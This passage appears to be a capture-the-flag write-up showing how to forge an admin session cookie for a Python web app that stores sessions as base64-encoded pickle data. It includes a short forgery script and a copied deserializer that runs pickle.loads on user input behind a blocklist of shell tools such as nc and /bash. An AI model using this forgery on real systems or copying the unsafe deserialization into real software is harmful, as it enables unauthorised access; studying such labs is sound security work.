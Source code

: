 Since cookies are user-controlled data, our first objective is to forge an authentication cookie so that we have the `admin` role instead of the current `user` so that `isAdmin()` will return `true` and we may access the Admin Panel.

For this exploit, we will need to set up the folder structure to be the same as the project:

```shell
tree exploit/

exploit/
├── exploit-admin.py
└── util
    └── auth.py

1 directory, 2 files

```

In the real `util/auth.py`, the role is selected from the SQLite database, but in our `exploit/util/auth.py` we want to be able to specify the role, so we will just recreate the structure of `Session` and define our own constructor where it accepts `username` and `role` as parameters. When a class is serialized in Python, the functions defined inside don't matter, only the value of the variables, so we can delete the rest of the functions. Lastly we will copy the `util.auth.sessionToCookie` and `util.auth.cookieToSession` functions.

```python
import pickle
import base64

class Session:
    def __init__(self, username, role):
        self.username = username
        self.role = role

def sessionToCookie(session):
    p = pickle.dumps(session)
    b = base64.b64encode(p)
    return b

def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"Popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p

```

With our version of `util/auth.py` ready, we can work on our main exploit file ( `exploit-admin.py`). We will instantiate a session with an arbitrary username and the admin role and call `util.auth.sessionToCookie` so we can get the corresponding cookie:

```python
import util.auth

s = util.auth.Session("attacker", "admin")
c = util.auth.sessionToCookie(s)
print(c.decode())

```
